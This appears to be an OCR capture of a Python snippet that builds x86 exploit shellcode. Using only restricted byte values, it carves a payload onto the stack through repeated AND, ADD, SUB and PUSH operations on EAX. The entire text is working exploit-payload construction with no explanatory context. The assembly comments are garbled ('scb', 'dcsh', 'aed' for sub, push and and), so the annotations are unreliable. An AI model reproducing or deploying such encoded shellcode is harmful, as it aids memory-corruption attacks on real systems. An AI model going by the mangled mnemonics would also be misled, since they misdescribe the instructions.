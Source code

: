```python
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x31\x76\x70\x06" ## add  eax, 0x06707631
shellcode += "\x05\x31\x65\x60\x06" ## add  eax, 0x06606531
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x26\x76\x61\x67" ## add  eax, 0x67617626
shellcode += "\x05\x25\x65\x62\x66" ## add  eax, 0x66626525
shellcode += "\x05\x23\x53\x41\x45" ## add  eax, 0x45415323
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x25\x65\x37\x22" ## add  eax, 0x22376525
shellcode += "\x05\x14\x65\x47\x21" ## add  eax, 0x21476514
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x43\x34\x44\x72" ## add  eax, 0x72443443
shellcode += "\x05\x42\x24\x44\x62" ## add  eax, 0x62442442
shellcode += "\x05\x42\x24\x44\x52" ## add  eax, 0x52442442
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x64\x41\x12\x67" ## add  eax, 0x67124164
shellcode += "\x05\x64\x32\x21\x56" ## add  eax, 0x56213264
shellcode += "\x05\x44\x31\x12\x35" ## add  eax, 0x35123144
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x51\x61\x71\x46" ## add  eax, 0x46716151
shellcode += "\x05\x41\x61\x71\x45" ## add  eax, 0x45716141
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x37\x27\x56\x62" ## add  eax, 0x62562737
shellcode += "\x05\x36\x16\x45\x61" ## add  eax, 0x61451636
shellcode += "\x05\x35\x25\x46\x42" ## add  eax, 0x42462535
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x47\x65\x57\x43" ## add  eax, 0x43576547
shellcode += "\x05\x46\x64\x46\x43" ## add  eax, 0x43466446
shellcode += "\x05\x45\x44\x45\x42" ## add  eax, 0x42454445
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x36\x43\x37\x53" ## add  eax, 0x53374336
shellcode += "\x05\x35\x43\x26\x42" ## add  eax, 0x42264335
shellcode += "\x05\x24\x32\x25\x42" ## add  eax, 0x42253224
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x76\x63\x66\x13" ## add  eax, 0x13666376
shellcode += "\x05\x76\x52\x66\x14" ## add  eax, 0x14665276
```
